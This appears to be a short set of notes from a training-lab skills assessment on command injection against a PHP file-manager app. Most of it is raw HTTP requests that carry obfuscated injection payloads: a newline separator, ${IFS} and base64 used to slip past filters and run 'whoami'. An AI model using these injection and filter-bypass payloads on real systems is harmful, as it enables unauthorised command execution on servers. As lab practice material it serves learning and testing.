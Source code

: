 # Skills Assessment - Commands Injections

94.237.62.195:42835

514

GET /index.php?to=&view=51459716.txt HTTP/1.1
Host: 94.237.62.195:42835
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://94.237.62.195:42835/index.php?to=
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: filemanager=62nrkg2r8iobluh3n2d2105u6l
Connection: close


view=51459716.txt%0abash<<<$(base64${IFS}-d<<<d2hvYW1p)

echo -n 'whoami' | base64
d2hvYW1p

POST /index.php?to= HTTP/1.1
Host: 94.237.62.195:42835
Content-Length: 40
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://94.237.62.195:42835
Referer: http://94.237.62.195:42835/index.php?to=
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: filemanager=62nrkg2r8iobluh3n2d2105u6l
Connection: close

ajax=true&content=514%0abash<<<$(base64${IFS}-d<<<d2hvYW1p)&path=.&type=search

GET /index.php?to=&from=51459716.txt HTTP/1.1
Host: 94.237.62.195:42835
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://94.237.62.195:42835/index.php?to=
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: filemanager=62nrkg2r8iobluh3n2d2105u6l
Connection: close
